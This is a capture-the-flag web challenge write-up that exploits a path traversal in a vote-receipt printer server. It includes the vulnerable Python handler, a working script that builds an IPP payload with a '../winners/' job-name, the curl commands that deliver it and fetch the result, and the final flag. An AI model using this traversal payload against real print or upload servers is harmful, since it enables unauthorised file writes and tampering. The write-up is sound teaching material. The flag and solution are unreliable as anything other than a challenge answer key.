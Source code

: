 # Who checks the integrity of the integrity checks? - web

## Challenge

The government has ordered verification of the votes via the printed receipts. The results were... a mismatch in votes! While there were probably multiple ways that this came as a result, is it possible for someone to tamper with the receipts?

Provided zipped printer server codebase.

## Solve

Viewing the source code for the printer server, we can find both where our flag is and how to get there:

__*Where*__

```py
FLAG_PATH = "/flag.txt"
PRINTJOB_FOLDER = "/tmp/printjobs"
CHAL_TARGET_FOLDER = "/tmp/winners"
```

__*How*__

```py
@app.route('/printers/votes', methods=['POST'])
def handle_print_job():
    ...
    ...
    with open(f"{PRINTJOB_FOLDER}/{filename}", "wb") as f:
        f.write(pdf_data)
    
    actual_path = os.path.realpath(os.path.join(PRINTJOB_FOLDER, filename))

    if actual_path.startswith(CHAL_TARGET_FOLDER):
        with open(FLAG_PATH, "r") as f:
            flag = f.read()

        with open(actual_path, "w") as f:
            f.write(flag)

    return Response("Print job saved", status=200, content_type="application/ipp")
```

So:

- The print job folder is `/tmp/printjobs`
- The target folder is `/tmp/winners`
- If we provide a print job with a filename that evaluates to a path beginning with `/tmp/winners`, the flag will be written in that directory under whatever filename we provide
  - The use of an f-string directly inserts the provided input without escaping or sanitisation. This input is then passed to `os.path.join()` leading to a path traversal vulnerability

We can see both how we supply a filename and the expected structure of a print job earlier in `handle_print_job()`:

```py
data = request.data
    idx = 8
    if data[idx] != 0x01:
        return "Missing operation attributes tag", 400
    idx += 1

    filename = None
    try:
        while data[idx] != 0x03:
            tag = data[idx]
            name_len = struct.unpack(">H", data[idx+1:idx+3])[0]
            name = data[idx+3:idx+3+name_len].decode()
            val_len_offset = idx+3+name_len
            val_len = struct.unpack(">H", data[val_len_offset:val_len_offset+2])[0]
            val = data[val_len_offset+2:val_len_offset+2+val_len].decode()
            if name == "job-name":
                filename = val
            idx = val_len_offset + 2 + val_len
    except Exception:
        return "Malformed IPP attributes", 400

    idx += 1  # skip end tag
    pdf_data = data[idx:]
```
- First 8 bytes of the file are skipped (these are ipp headers version, operation code, request ID)
- Then expects byte `0x1` (ipp operation attributes tag which marks the start of job attributes)
- Then attributes are continuously read until encountering terminate byte `0x3`
- Then any remaining bytes are considered the payload or actual data of the print job

If the attribute `job-name` is provided, `filename` is set to its value (`val`). So, we can send a print job, specifying the `job-name` attribute to control filename! If we make `job-name` our target path, the unsanitised input can give us our flag!

The following script generates a print job matching the requirements with the `job-name` attribute set to `../winners/gimmeflag.txt`:

```py
import struct

def craft_ipp_payload(job_name, pdf_content=b"anything"):

    payload = bytearray()
    
    # IPP Header (8 bytes) - ignored by server so set to all zero
    # version: any
    payload.extend(struct.pack(">H", 0x0000))
    # operation: any
    payload.extend(struct.pack(">H", 0x0000))
    # req id: any
    payload.extend(struct.pack(">I", 0x00000000))
    
    # add operation attributes tag
    payload.append(0x01)
    
    # Add job-name attribute
    # Tag for textWithoutLanguage (0x41)
    payload.append(0x41)
    
    # Name length and name
    name = b"job-name"
    payload.extend(struct.pack(">H", len(name)))
    payload.extend(name)
    
    # Value length and value
    job_name_bytes = job_name.encode()
    payload.extend(struct.pack(">H", len(job_name_bytes)))
    payload.extend(job_name_bytes)
    
    # End of attributes tag
    payload.append(0x03)
    
    # add 'data' or 'payload' portion
    payload.extend(pdf_content)
    
    return bytes(payload)

malicious_payload = craft_ipp_payload("../winners/gimmeflag.txt")

with open("test.ipp", "wb") as f:
        f.write(malicious_payload)
```

This results in `filename` becoming `/tmp/printjobs/../winners/gimmeflag.txt`, evaluating to `/tmp/winners/gimmeflag.txt` (matching the syntax of our target directory)!

Running the script generates `test.ipp` which we send to the server:

```bash
curl -X POST --data-binary @test.ipp -H "Content-Type: application/ipp" http://printer.commission.freedonia.vote:80/printers/votes -v
```

The server receives our file, which we can then read with:

```bash
curl http://printer.commission.freedonia.vote:80/files/gimmeflag.txt
```

<img width="928" height="501" alt="print" src="https://github.com/user-attachments/assets/87a71341-d26f-4f7b-aa1b-99565bbb69ee" />


`cysea{cant_trust_anything_these_days_31fe6ba0a0}`

